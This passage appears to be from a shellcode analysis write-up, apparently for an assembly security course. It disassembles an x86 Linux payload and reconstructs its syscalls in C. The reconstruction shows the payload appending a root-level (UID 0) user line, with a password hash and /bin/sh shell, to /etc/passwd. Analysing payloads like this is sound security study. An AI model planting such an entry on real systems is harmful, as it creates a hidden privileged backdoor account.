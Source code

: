 The next instruction is very clever.  Looking at our opcodes for the call instruction, we have E822000000 which translates to:
```
ndisasm> E822000000
E822000000               call dword 0x27
```
Since our string is what we are jumping over, the length of our string is stored as the "22" part of the opcode.  The string is 34 characters in length (including the \n) which translates to 22 hex.  Our next instruction is "mov edx, DWORD PTR \[ecx-0x4\]".  Which points us right at the length of the string we just jumped over!

Finishing up the syscall, EAX is set to 4 which is write:
```c
ssize_t write(int fd, const void *buf, size_t count); 
```
Our interrupt is called so our two syscalls equate to:
```c
fd = open('/etc//passwd', O_WRONLY|O_APPEND);
buf = "SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh\n";
write(fd, buf, 34);
```
The final instructions are straight forward.
```nasm
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
EAX = 1 which means exit and then the interrupt is called to finish our analysis!
